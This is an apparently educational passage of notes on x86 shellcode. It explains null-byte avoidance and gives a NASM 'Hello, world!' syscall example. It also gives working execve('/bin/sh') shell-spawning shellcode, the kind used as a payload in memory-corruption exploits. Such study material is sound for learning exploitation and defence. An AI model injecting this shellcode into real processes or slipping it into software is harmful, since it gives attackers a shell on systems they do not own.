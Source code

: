     - Using this method does have one big caveat. Since the upper 8 bits of the register can contain anything, it is best to zero out the register before using it. This is most easily done via executing an ```xor``` function on a register against itself resulting in all 0s. EX:   ```xor eax,eax```
      - <details><summary>Example</summary>

          ```
          BITS 32             ;  Tell nasm this is 32-bit code.

          jmp short one       ;  Jump down to a call at the end.

          two:
          ; ssize_t write(int fd,  const void *buf, size_t count);
            pop ecx           ; Pop  the return address (string ptr) into ecx.
            xor eax, eax      ; Zero  out full 32 bits of eax register.
            mov al, 4         ; Write  syscall #4 to the low byte of eax.
            xor ebx, ebx      ; Zero out ebx.
            inc ebx           ; Increment ebx to 1,  STDOUT file descriptor.
            xor edx, edx
            mov dl, 15        ; Length of the string
            int 0x80          ; Do syscall: write(1, string, 14)

          ; void _exit(int status);
            mov al, 1        ; Exit syscall #1, the top 3 bytes are still zeroed.
            dec ebx          ; Decrement ebx back down to 0 for status = 0.
            int 0x80         ; Do syscall: exit(0)

          one:
            call two   ; Call back upwards to avoid null bytes
            db "Hello, world!", 0x0a, 0x0d  ; with newline and carriage return bytes.
          ```
          </details>

#### Spawning shells
As stated before, shell code's magic lies in the fact that everything your operating ystsem does is via collection of system calls, each of these system calls can be executed with some simple assembly, and one of the most pertinent for this topic is system call #11, ```execve()```
  - <details></details>
  - When called in our case the arguments will contain
    - **Filename** - A pointer to the string "/bin/sh"
    - **Args list** - empty (use a 32b null pointer)
    - **Env list** - empty (use a 32b null pointer)

The assembly looks a little like this:
```
BITS 32

  jmp short two     ; Jump down to the bottom for the call trick.
one:
; int execve(const char *filename, char *const argv [], char *const envp[])
  pop ebx           ; Ebx has the addr of the string.
  xor eax, eax      ; Put 0 into eax.
  mov [ebx+7], al   ; Null terminate the /bin/sh string.
  mov [ebx+8], ebx  ; Put addr from ebx where the AAAA is.
  mov [ebx+12], eax ; Put 32-bit null terminator where the BBBB is.
  lea ecx, [ebx+8]  ; Load the address of [ebx+8] into ecx for argv ptr.
  lea edx, [ebx+12] ; Edx = ebx + 12, which is the envp ptr.
  mov al, 11        ; Syscall #11
  int 0x80          ; Do it.

two:
  call one          ; Use a call to get string address.
  db '/bin/shXAAAABBBB'     ; The XAAAABBBB bytes aren't needed.
```
This results in the registers looking like:
  - EAX = 11
  - EBX = '\bin\sh'
  - ECX = 'AAAA' (in a real world case. this is a pointer to NULL)